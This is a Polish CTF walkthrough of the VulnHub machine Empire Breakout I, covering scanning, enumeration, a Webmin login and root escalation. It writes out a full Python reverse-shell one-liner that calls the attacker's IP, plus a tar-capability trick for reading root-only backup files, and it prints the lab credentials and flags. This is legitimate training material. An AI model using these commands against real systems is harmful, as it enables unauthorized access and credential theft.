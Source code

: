 **CTF - Empire Breakout I**

`Autor: adi7312`

**Poziom trudności**: Łatwy


**Link do maszyny**: [Empire Breakout I](https://www.vulnhub.com/entry/empire-breakout,751/).



**Spis treści:**
- [**CTF - Empire Breakout**](#ctf---empire-breakout)
  - [**Skanowanie sieci**](#skanowanie-sieci)
  - [**Skanowanie portów**](#skanowanie-portów)
  - [**Identyfikacja podatności**](#identyfikacja-podatności)
  - [**Poszukiwanie flagi użytkownika**](#poszukiwanie-flagi-użytkownika)
  - [**Eskalacja uprawnień i zdobycie drugiej flagi**](#eskalacja-uprawnień-i-zdobycie-drugiej-flagi)



## **Skanowanie sieci**

**Cel**: Znalezienie adresu IP sieci oraz IP podatnej maszyny.

Korzystamy z polecenia:

    ifconfig

Adres IP Kali Linuxa to 192.168.138.132, a maska sieci to 255.255.255.0 (/24), zatem adresem sieci jest 192.168.138.0/24, korzystamy z tej informacji i uruchamiamy netdiscover poleceniem:

    sudo netdiscover -r 192.168.138.0/24
Otrzymujemy 4 wyniki, z czego 192.168.138.138 to adres IP maszyny **Empire Breakout**


![](p/1.png)


## **Skanowanie portów**

**Cel**: Dowiedzieć się na jakich portach działa host **Empire Breakout**, dokonać wykrycia usług tych hostów oraz zidentyfikować system operacyjny.

Uruchomiamy narzędzie nmap, z poniższymi opcjami:
* **-sV** - w celu identyfikacji wersji usług hosta
* **-O** - w celu identyfikacji systemu operacyjnego


![](p/2.png)


Host działa na 5 portach, uwagę przykuwa **Samba** która była w przeszłości dosyć podatna, jednak po sprawdzeniu okazuje się że obecna na **Empire Breakout** wersja jest bezpieczena, więc szukamy podatności gdzie indziej.


## **Identyfikacja podatności**

**Cel**: Identyfikacja podatności

Nastepnie robimy skanowanie podatności, korzystamy z narzędzia OpenVas. Okazuje się że nasza maszyna ma bardzo dużo podatności związanych z **webmin**, a *severity* maszyny określono na aż 9.8 punkta.

## **Poszukiwanie flagi użytkownika**

**Cel**: Zdobycie pierwszej flagi

![](p/3.png)


Wchodzimy na stronę *192.168.138.138* jednak znajduje się tam domyślna strona *Apache*, jednak mimo to zajrzymy do kodu źródłowego. Okazuje się że na dole znajduje się zaszyfrowana jakaś treści, najprawdpodobniej hasło.


![](p/4.png)


Hasło jest "zaszyfrowane" w języku programowania *brainfuck*, korzystamy z internetowego interpretera tego języka, odszyfrowane hasło to:

    .2uqPEfj3D<P’a-3


Na tej stronie nic więcej nie zrobimy, ale może spróbujmy wejść na to samo IP ale na port 20000, tzn. wpisujemy w przeglądarke (UWAGA! Należy skorzystać z https a nie http):


    https://192.168.138.138:20000/


Pokazuje nam się okno logowania, znamy hasło, jednak nie znamy username. Zatem będziemy musieli dokonać enumeracji użytkowników. Z tym problemem równiez poradzimy sobie, skorzystamy z narzędzia *enum4linux*. Korzystamy więc z polecenia:


    sudo enum4linux 192.168.138.138

Output jest nieco długi i może być przytłaczający, jednak na uwagę zasługuje jeden użytkownik *cyber*.


![](p/5.png)


Spróbujmy zatem zalogować się przy pomocy *cyber*, podajemy również pozyskane ostatnio hasło. Pomyślnie zalogowaliśmy się. Następnie tworzymy web shella (zakładka usermin, na dole znajduje się symbol konsolki), który pozwali nam wykonanie *reverse shell'a* przy pomocy Pythona. 

Na początku jednak uruchamiamy terminal na naszym *Kali Linux* i wpisujemy polecenie:

    sudo nc -lvnp 1234

Robimy to w celu nasłuchiwania aktywności na porcie 1234 oraz żebyśmy mogli wykorzystać nasz shell wywołany przez Pythona.

Wpisujemy w konsoli polecenie (w tej webowej):

    python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.138.132",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("/bin/sh")'


Teraz na terminalu gdzie odpalaliśmy polecenie `sudo nc ...` powinien wywołać się *shell*. Pierwsze co sprwadzimy to zawartość katalogu w którym jesteśmy wpisujemy więc `ls`, widzimy plik *user.txt*, chcąc zobaczyć jego zawartość wpisujemy `cat user.txt`, w środku znajduje się pierwsza flaga.


![](p/6.png)


**`Pierwsza Flaga: 3mp!r3{You_Manage_To_Break_My_Secure_Access`**


## **Eskalacja uprawnień i zdobycie drugiej flagi**

**Cel**: Eskalacja uprawnień do roota oraz zdobycie ostatniej flagi.


Teraz musimy przejąć flagę *root'a*. Początkowo próbowaliśmy używać `uname -a` w celu poznania wersji Linuxa, i na tej podstawie próbowaliśmy ustalić czy z tą wersją istnieją jakieś podatności, jednak nic nie znaleźliśmy. Na trop naprowadziło nas polecenie:

    getcap -r / 2>/dev/null

Pomogło nam określić możliwości niektórych plików:


![](p/7.png)


*cap_dac_read_search=ep* oznacza że może skorzystać z tego narzędzia do oczytania każdych plików (nawet plików roota). Jednak zanim to zrobimy należy uruchomić nieco wygodniejszego shella:

    python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

Wchdzimy teraz w katalog `/var/backups`, po użyciu polecenia `ls -la` możemy zobaczyć plik *.old_pass.bak* (którego oczywiście odczytac nie możemy bo nie mamy uprawnien roota), możemy na tym pliku użyć nasze znalezione wcześniej narzędzie, wracamy więc do katalogu `/home/cyber`. Wpisujemy polecenie:

    ./tar -cf password.tar /var/backups/.old_pass.bak

Stworzyliśmy archiwum *password.tar*, nastepnie poleceniem:

    tar -xf password.tar

Rozpakowuje zawartość (którą będziemy mogli już przeczytać jako user *cyber*), następnie odczytuję zawartość *.old_pass.bak*.


![](p/8.png)


**Znalezione hasło**: Ts&4&YurgtRX(=~h

Znalezione hasło wykorzystamy żeby przełączyć się z `cyber` na `roota`. Wpisujemy polecenie i podajemy hasło:

    su root

Następnie pozostało jedynie przejść do `/root` oraz odczytać flagę.


![](p/9.png)


**`Ostatnia Flaga: 3mp!r3{You_Manage_To_BreakOut_From_My_Secure_System_Congratulation}`**
